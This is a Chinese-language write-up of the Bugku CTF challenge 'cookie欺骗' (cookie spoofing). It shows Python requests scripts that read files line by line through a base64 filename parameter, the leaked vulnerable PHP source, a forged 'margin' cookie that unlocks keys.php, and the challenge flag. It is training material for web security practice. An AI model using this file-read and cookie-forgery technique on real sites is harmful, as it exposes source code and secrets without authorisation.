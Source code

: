 ```yaml
---
title: bugku_writeup_cookie欺骗
date: 2020-04-24 21:48:47
tags: bugku_writeup
categories: bugku_writeup
---
```


### cookie欺骗

> 加载页面后发现一串无意义的字符串，查看get参数 发现filename是base64编码，解码后是可以keys.txt
>
> 尝试index.php的base64作为参数的话出现了index.php 遂直接读出index.php的源码

```python
import requests
import base64
fo = open("index.php", "w")
url = "http://123.206.87.240:8002/web11/index.php"
for i in range(40):
    payload = {"line": i, "filename": "aW5kZXgucGhw"}
    r=requests.get(url,params=payload)
    fo.write(r.text)
fo.close()
    



```

读出的源码为：

```php
<?php
error_reporting(0);
$file=base64_decode(isset($_GET['filename'])?$_GET['filename']:""); //判断filename 是否为空 file=解码后的文件名否则是空
$line=isset($_GET['line'])?intval($_GET['line']):0;//参数无行数则是0
if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ="); //不输入filename参数默认值
$file_list = array(
'0' =>'keys.txt',
'1' =>'index.php',
);
if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){ //如果有cookie 添加一个元素
$file_list[2]='keys.php';

}
if(in_array($file, $file_list)){
$fa = file($file); //把文件读入数组
echo $fa[$line]; //输出文件
}
?>


```

> 修改刚刚代码 加入cookie和修改get参数为keys.php的base64编码类型

```python
import requests
import base64
fo = open("key.php", "w")
cookie = {'margin': 'margin'}
url = "http://123.206.87.240:8002/web11/index.php"
for i in range(40):
    payload = {"line": i, "filename": "a2V5cy5waHA="}
    r = requests.get(url, params=payload,cookies=cookie)
    fo.write(r.text)
fo.close()


```

> 注意：简单方法是burp抓包修改get参数，并添加cookie。也阔以用harkbar修改即可，这里是为了熟悉requests模块

==得到flag==

`<?php $key='KEY{key_keys}'; ?>`

